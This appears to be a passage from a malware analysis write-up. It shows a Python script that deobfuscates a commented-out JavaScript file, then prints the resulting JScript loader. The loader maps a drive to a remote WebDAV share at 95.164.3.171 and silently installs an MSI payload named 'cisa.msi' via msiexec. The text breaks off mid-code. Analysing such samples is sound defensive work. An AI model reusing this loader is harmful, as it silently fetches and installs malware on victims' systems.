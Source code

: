 ![image](https://firebasestorage.googleapis.com/v0/b/cv-p-2e5bb.appspot.com/o/obf.png?alt=media&token=ca754e2b-47e4-4678-a28c-acc8d76ad6cd)

```python
def de_Comment(input_file, output_file):
    with open(input_file, 'r') as infile, open(output_file, 'w') as outfile:
        for line in infile:
            if line.startswith('////'):
                outfile.write(line[4:])  

# input_file = ''  The JS File 
output_file = 'out.js'  
de_Comment(input_file, output_file)

```
- After running the Python script to de-obfuscate the JavaScript file, the code has been transformed into a more readable and understandable format. This process unveils the original structure and logic of the code, making it easier to analyze 

```javascript
var network = new ActiveXObject("WScript.Network");
var wmi = GetObject("winmgmts:\\\\.\\root\\cimv2");
var attempt = 0;
var connected = false;
var driveLetter, letter;

function isDriveMapped(letter) {
   var drives = network.EnumNetworkDrives();
   for (var i = 0; i < drives.length; i += 2) {
        if (drives.Item(i) === letter) {
            return true;
        }
    }
    return false;
}

for (driveLetter = 90; driveLetter >= 65 && !connected; driveLetter--) {
    letter = String.fromCharCode(driveLetter) + ":";
    if (!isDriveMapped(letter)) {
        try {
            network.MapNetworkDrive(letter, "\\\\95.164.3.171@80\\share\\");
            connected = true;
            break;
          } catch (e) {
             attempt++;
          }
   }
}

if (!connected && attempt > 5) {
    var command = 'net use ' + letter + ' \\\\95.164.3.171@80\\share\\ /persistent:no';
    wmi.Get("Win32_Process").Create(command, null, null, null);

    var startTime = new Date();
    while (new Date() - startTime < 3000) {} 
    connected = isDriveMapped(letter);
}

if (connected) {
    var installCommand = 'msiexec.exe /i \\\\95.164.3.171@80\\share\\cisa.msi /qn';
    wmi.Get("Win32_Process").Create(installCommand, null, null, null);

    try {
       network.RemoveNetworkDrive(letter, true, true);
    } catch (e) {
```